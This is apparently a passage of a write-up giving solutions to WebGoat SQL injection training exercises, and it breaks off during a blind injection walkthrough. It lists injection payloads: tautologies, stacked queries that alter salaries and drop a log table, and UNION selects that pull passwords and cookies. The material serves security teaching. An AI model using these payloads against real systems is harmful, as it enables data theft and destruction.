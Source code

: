 ````title="Employee Name:"
' or 1=1;--
````

or

````title="Employee Name:"
Blah
````
````title="Authentication TAN:"
' or '1'='1
````

### WebGoat SQL (Intro) - Solution for exercise 12:

````title="Employee Name:"
' or 1=1; UPDATE employees SET salary=100000 WHERE first_name='John'
````

### WebGoat SQL (Intro) - Solution for exercise 13:

````title="Action contains:"
' or 1=1; DROP TABLE access_log;--
````

---

## Solutions Advanced -- Where things get interesting
---

### WebGoat SQL (Advanced) - Solution for exercise 3:

````title="Name:"
Dave' union select userid, user_name, 'name', 'cc', password, cookie, 1 from user_system_data;--
````

or

````title="Name:"
Dave'; select * from user_system_data;--
````

### WebGoat SQL (Advanced) - Solution for exercise 5:

This one involved blind SQL injection on a login page. After much trials on the login section with the username and pass, I moved on to the registration section and created a new user named 'devon.' After creating the user I then tried creating the same user with:

````title="Username:"
devon' and 1=1;--
````

The response was that the user was already created, but this can't be true as the username includes the '1=1' and other special script. This shows that there is a user with this name, which we already knew and that the server used the remaining string as an injection that compared the user name AND 1=1 which returned a hit.

Also, you can double check that injection is possible by using the reverse logic:
